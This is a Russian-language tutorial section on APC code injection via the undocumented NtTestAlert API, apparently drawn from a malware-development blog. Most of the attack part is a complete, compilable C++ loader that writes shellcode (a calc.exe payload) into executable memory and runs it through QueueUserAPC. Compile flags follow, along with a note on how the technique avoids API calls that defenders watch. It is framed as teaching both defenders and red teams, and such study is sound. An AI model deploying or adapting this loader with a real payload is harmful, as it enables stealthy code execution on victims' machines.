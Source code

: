 \newpage
\subsection{14. APC инъекция с помощью NtTestAlert. простое вредоносное ПО на C++.}

﷽

![APC injection](./images/22/2021-11-21_13-18.png){width="80%"}    

В предыдущем разделе я писал о технике APC injection "Early Bird".

В этом разделе я расскажу о другой технике APC injection. Её суть заключается в использовании недокументированной функции `NtTestAlert`. Я покажу, как выполнить shellcode в локальном процессе, используя Win32 API `QueueUserAPC` и официально недокументированный Native API `NtTestAlert`.

### NtTestAlert

**NtTestAlert** - это системный вызов, связанный с механизмом оповещений Windows. Этот системный вызов может привести к выполнению всех ожидающих APC в потоке. Перед тем как поток начинает выполнять свою стартовую функцию в Win32, он вызывает `NtTestAlert` для выполнения всех ожидающих APC.

### Пример

Давайте рассмотрим исходный код нашего вредоносного C++-приложения:

```cpp
/*
hack.cpp
APC code injection via undocumented NtTestAlert
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/20/malware-injection-4.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main(int argc, char* argv[]) {
  SIZE_T my_payload_len = sizeof(my_payload);
  HMODULE hNtdll = GetModuleHandleA("ntdll");
  myNtTestAlert testAlert = (myNtTestAlert)(
    GetProcAddress(hNtdll, "NtTestAlert"));

  LPVOID my_payload_mem = VirtualAlloc(NULL, my_payload_len, 
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(GetCurrentProcess(), 
  my_payload_mem, my_payload, 
  my_payload_len, NULL);

  PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)
  my_payload_mem;
  QueueUserAPC(
    (PAPCFUNC)apcRoutine, 
    GetCurrentThread(), NULL
  );
  testAlert();

  return 0;
}
```

Для простоты в качестве полезной нагрузки мы используем 64-битный `calc.exe`.    

Алгоритм этой техники прост. Сначала мы выделяем память в локальном процессе для нашего payload:    

![APC injection 1](./images/22/2021-11-21_13-49.png){width="80%"}    

Затем записываем наш payload в только что выделенную память:    

![APC injection 2](./images/22/2021-11-21_13-50.png){width="80%"}    

Далее добавляем APC в очередь текущего потока:    

![APC injection 3](./images/22/2021-11-21_13-52.png){width="80%"}    

Наконец, вызываем `NtTestAlert`:    

![APC injection 4](./images/22/2021-11-21_13-53.png){width="80%"}    

Давайте скомпилируем наш код:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
 -I/usr/share/mingw-w64/include/ -s -ffunction-sections \
 -fdata-sections -Wno-write-strings -fno-exceptions \
 -fmerge-all-constants -static-libstdc++ -static-libgcc \
 -fpermissive
```

![APC injection 5](./images/22/2021-11-21_13-58.png){width="80%"}    

Запускаем на целевой машине (в моем случае Windows 7 x64):   

![APC injection 6](./images/22/2021-11-21_14-03.png){width="80%"}    

Если открыть наш `hack.exe` в `Ghidra`:    

![APC injection 7](./images/22/2021-11-21_15-12.png){width="80%"}    

Вызов функции `NtTestAlert` не выглядит подозрительным. Преимущество этой техники в том, что она не использует API-вызовы `CreateThread` или `CreateRemoteThread`, которые более распространены, подозрительны и чаще анализируются специалистами Blue Team.

[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[GetModuleHandleA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)    
[APC technique MITRE ATT&CK](https://attack.mitre.org/techniques/T1055/004/)    
[NTAPI Undocumented Functions - NtTestAlert](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.html)    
[Ghidra - NSA](https://github.com/NationalSecurityAgency/ghidra/)    
[исходный код на Github](https://github.com/cocomelonc/2021-11-20-injection-4)    

Надеюсь, этот раздел поможет специалистам Blue Team лучше понимать данную технику, а для Red Team станет дополнительным инструментом в их арсенале.   
